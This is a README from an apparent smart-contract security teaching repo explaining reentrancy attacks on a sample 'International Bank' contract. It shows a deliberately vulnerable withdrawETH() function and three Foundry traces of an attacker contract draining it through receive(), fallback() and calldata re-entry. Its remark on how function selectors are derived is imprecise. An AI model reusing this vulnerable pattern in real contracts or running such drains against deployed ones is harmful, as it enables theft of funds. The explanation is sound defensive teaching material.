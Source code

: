 # SC05 - Reentrancy Attacks	

Reentrancy attacks exploit the ability to reenter a vulnerable function before its execution is complete. This can lead to repeated state changes, often resulting in drained contract funds or broken logic.


In this scenario, we are dealing with International Bank: an online and international banking system that allows a user to `depositETH()`, `withdrawETH()` and `getContractBalance()`.
An issue arises within our `withdrawETH()` function:
```javascript
function withdrawETH() public {
        uint256 userBalance = userToETHDepositedBalance[msg.sender];
        require(userBalance > 0, "You do not have enough balance to withdraw. Please deposit first.");
        (bool success,) = msg.sender.call{value: userBalance}("");
        require(success, "Transfer failed.");

        userToETHDepositedBalance[msg.sender] = 0;
    }
```

We can see that the function makes the external call to the user/contract wallet to transfer their ETH back to them and THEN it updates the state variable within the contract. This way, an attacker could initialize a `fallback()` or `receive()` function within their receiving logic that will get triggered by the `call` from the InternationalBank logic which will allow them to keep re-entering the withdraw function and absorb all of the contract funds before the state variable that's holding each user's balance gets updated to zero.

In this repo, I have created three example for this vulnerability:
- Example 1: The `withdrawETH()` function makes an external call with no calldata; The attacker contract has both a `receive()` and `fallback()` functions implemented. This will trigger the `receive()` function within the receiving contract:
```javascript
$ forge test -vvvv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for test/WorkflowTest.t.sol:WorkflowTest
[PASS] testAttackerCanStealAllETH() (gas: 114525)
Traces:
  [134425] WorkflowTest::testAttackerCanStealAllETH()
    ├─ [0] VM::deal(Kujen: [0xB3D7990B15A8e4707330Ad9f56658E854fa21F88], 10000000000000000000 [1e19])
    │   └─ ← [Return] 
    ├─ [0] VM::prank(Kujen: [0xB3D7990B15A8e4707330Ad9f56658E854fa21F88])
    │   └─ ← [Return] 
    ├─ [22435] InternationalBank::depositETH{value: 5000000000000000000}()
    │   └─ ← [Stop] 
    ├─ [0] VM::assertEq(5000000000000000000 [5e18], 5000000000000000000 [5e18]) [staticcall]
    │   └─ ← [Return] 
    ├─ [81041] Attacker::Steal{value: 1000000000000000000}()
    │   ├─ [22435] InternationalBank::depositETH{value: 1000000000000000000}()
    │   │   └─ ← [Stop] 
    │   ├─ [48831] InternationalBank::withdrawETH()
@>    │   │   ├─ [41386] Attacker::receive{value: 1000000000000000000}()
    │   │   │   ├─ [40614] InternationalBank::withdrawETH()
    │   │   │   │   ├─ [33169] Attacker::receive{value: 1000000000000000000}()
    │   │   │   │   │   ├─ [32397] InternationalBank::withdrawETH()
    │   │   │   │   │   │   ├─ [24952] Attacker::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   ├─ [24180] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   ├─ [16735] Attacker::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   ├─ [15963] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   │   │   ├─ [8518] Attacker::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   ├─ [7746] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   │   │   │   │   ├─ [301] Attacker::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   └─ ← [Stop] 
    │   │   │   └─ ← [Stop] 
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertEq(6000000000000000000 [6e18], 6000000000000000000 [6e18]) [staticcall]
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 15.52ms (3.04ms CPU time)

Ran 1 test suite in 73.30ms (15.52ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
```diff
+    │   │   ├─ [41386] Attacker::receive{value: 1000000000000000000}()
```

- Example 2: The `withdrawETH()` function makes an external call with no calldata; The attacker contract has only a `fallback()` function implemented. This will trigger the `fallback()` function within the receiving contract:
```javascript
$ forge test -vvvv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for test/WorkflowTest.t.sol:WorkflowTest
[PASS] testAttackerCanStealAllETH() (gas: 114435)
Traces:
  [134335] WorkflowTest::testAttackerCanStealAllETH()
    ├─ [0] VM::deal(Kujen: [0xB3D7990B15A8e4707330Ad9f56658E854fa21F88], 10000000000000000000 [1e19])
    │   └─ ← [Return] 
    ├─ [0] VM::prank(Kujen: [0xB3D7990B15A8e4707330Ad9f56658E854fa21F88])
    │   └─ ← [Return] 
    ├─ [22435] InternationalBank::depositETH{value: 5000000000000000000}()
    │   └─ ← [Stop] 
    ├─ [0] VM::assertEq(5000000000000000000 [5e18], 5000000000000000000 [5e18]) [staticcall]
    │   └─ ← [Return] 
    ├─ [80951] Attacker::Steal{value: 1000000000000000000}()
    │   ├─ [22435] InternationalBank::depositETH{value: 1000000000000000000}()
    │   │   └─ ← [Stop] 
    │   ├─ [48741] InternationalBank::withdrawETH()
@>    │   │   ├─ [41296] Attacker::fallback{value: 1000000000000000000}()
    │   │   │   ├─ [40539] InternationalBank::withdrawETH()
    │   │   │   │   ├─ [33094] Attacker::fallback{value: 1000000000000000000}()
    │   │   │   │   │   ├─ [32337] InternationalBank::withdrawETH()
    │   │   │   │   │   │   ├─ [24892] Attacker::fallback{value: 1000000000000000000}()
    │   │   │   │   │   │   │   ├─ [24135] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   ├─ [16690] Attacker::fallback{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   ├─ [15933] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   │   │   ├─ [8488] Attacker::fallback{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   ├─ [7731] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   │   │   │   │   ├─ [286] Attacker::fallback{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   └─ ← [Stop] 
    │   │   │   └─ ← [Stop] 
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertEq(6000000000000000000 [6e18], 6000000000000000000 [6e18]) [staticcall]
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 860.25µs (245.63µs CPU time)

Ran 1 test suite in 7.97ms (860.25µs CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
```diff
+    │   │   ├─ [41296] Attacker::fallback{value: 1000000000000000000}()
```

- Example 3: The `withdrawETH()` function makes an external call with calldata; The attacker contract has a `fallback()` and `receive()` functions implemented. This will trigger the `fallback()` function within the receiving contract in the case of the calldata not matching any function selector on the called contract. However, if the calldata does match a function selector, then that function will be called instead of `fallback()` (do note that the function selector to be called is the first 4 bytes of the kaccak-256 hash of the calldata):
```javascript
$ forge test -vvvv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for test/WorkflowTest.t.sol:WorkflowTest
[PASS] testAttackerCanStealAllETH() (gas: 115305)
Traces:
  [135205] WorkflowTest::testAttackerCanStealAllETH()
    ├─ [0] VM::deal(Kujen: [0xB3D7990B15A8e4707330Ad9f56658E854fa21F88], 10000000000000000000 [1e19])
    │   └─ ← [Return] 
    ├─ [0] VM::prank(Kujen: [0xB3D7990B15A8e4707330Ad9f56658E854fa21F88])
    │   └─ ← [Return] 
    ├─ [22435] InternationalBank::depositETH{value: 5000000000000000000}()
    │   └─ ← [Stop] 
    ├─ [0] VM::assertEq(5000000000000000000 [5e18], 5000000000000000000 [5e18]) [staticcall]
    │   └─ ← [Return] 
    ├─ [81821] Attacker::Steal{value: 1000000000000000000}()
    │   ├─ [22435] InternationalBank::depositETH{value: 1000000000000000000}()
    │   │   └─ ← [Stop] 
    │   ├─ [49611] InternationalBank::withdrawETH()
@>    │   │   ├─ [42131] Attacker::52616e64{value: 1000000000000000000}(6f6d2063616c6c64617461)
    │   │   │   ├─ [41264] InternationalBank::withdrawETH()
    │   │   │   │   ├─ [33784] Attacker::52616e64{value: 1000000000000000000}(6f6d2063616c6c64617461)
    │   │   │   │   │   ├─ [32917] InternationalBank::withdrawETH()
    │   │   │   │   │   │   ├─ [25437] Attacker::52616e64{value: 1000000000000000000}(6f6d2063616c6c64617461)
    │   │   │   │   │   │   │   ├─ [24570] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   ├─ [17090] Attacker::52616e64{value: 1000000000000000000}(6f6d2063616c6c64617461)
    │   │   │   │   │   │   │   │   │   ├─ [16223] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   │   │   ├─ [8743] Attacker::52616e64{value: 1000000000000000000}(6f6d2063616c6c64617461)
    │   │   │   │   │   │   │   │   │   │   │   ├─ [7876] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   │   │   │   │   ├─ [396] Attacker::52616e64{value: 1000000000000000000}(6f6d2063616c6c64617461)
    │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   └─ ← [Stop] 
    │   │   │   └─ ← [Stop] 
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertEq(6000000000000000000 [6e18], 6000000000000000000 [6e18]) [staticcall]
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 865.30µs (262.21µs CPU time)

Ran 1 test suite in 729.78ms (865.30µs CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
```diff
+    │   │   ├─ [42131] Attacker::52616e64{value: 1000000000000000000}(6f6d2063616c6c64617461)
```


